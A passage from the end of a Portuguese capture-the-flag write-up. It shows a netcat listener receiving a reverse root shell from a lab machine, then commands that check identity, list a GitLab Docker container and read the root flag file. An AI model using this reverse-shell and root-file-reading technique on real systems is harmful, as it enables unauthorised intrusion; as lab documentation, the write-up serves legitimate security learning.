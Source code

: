 Com a conexão recebida, confirmado que estávamos dentro do host executando o comando `docker ps` e, na sequência, obtido a flag de root.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.14.136] from (UNKNOWN) [10.10.10.220] 38246
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# docker ps
CONTAINER ID        IMAGE                          COMMAND             CREATED             STATUS                 PORTS                                   NAMES
7eb263389e5e        gitlab/gitlab-ce:11.4.7-ce.0   "/assets/wrapper"   2 months ago        Up 5 hours (healthy)   22/tcp, 443/tcp, 0.0.0.0:5080->80/tcp   docker-gitlab_web_1
# cat /root/root.txt
<redacted>
```

Espero que tenham gostado.

Vejo vocês no próximo post! :smile: